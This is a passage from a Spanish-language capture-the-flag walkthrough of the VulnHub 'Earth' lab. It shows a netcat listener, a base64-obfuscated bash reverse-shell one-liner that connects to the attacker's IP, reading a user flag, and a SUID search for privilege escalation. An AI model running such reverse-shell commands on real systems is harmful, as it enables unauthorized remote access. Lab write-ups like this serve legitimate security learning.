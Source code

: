 Poner el puerto en escucha
```bash
nc -lvnp 4444
```

IMPORTANTE: Utilizo `ncwrap` que es un alias que he asignado al comando "`rlwrap nc`", para poder usar un shell inverso mejorado.

Para poder usarlo instalar `rlwrap` con `sudo apt install -y rlwrap` y opcionalmente crear un alias que al escribirlo ejecute "`rlwrap nc`"

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/17.png){: .align-center}

Mandar ese comando encriptado indicando que después se desencripte y ejecute

```bash
echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTIyLjEzLzQ0NDQgMD4mMQo=' | base64 -d | bash
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/18.png){: .align-center}

Se abrirá un shell inverso

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/19.png){: .align-center}

Al ir a `/var` se podrá ver un directorio llamado `earth_web`
```bash
cd /var
ls –la
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/20.png){: .align-center}

Ir a `earth_web` y mostrar el contenido
```bash
cd earth_web
ls -la
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/21.png){: .align-center}

Leer el archivo `user_flag.txt`
```bash
cat user_flag.txt
Flag: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/22.png){: .align-center}

Buscar archivos en el sistema con permisos especiales para el usuario actual
```bash
find / -perm -u=s 2>/dev/null
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/23.png){: .align-center}

Saldrá un archivo llamado `reset_root`, al ejecutarlo mostrará un error
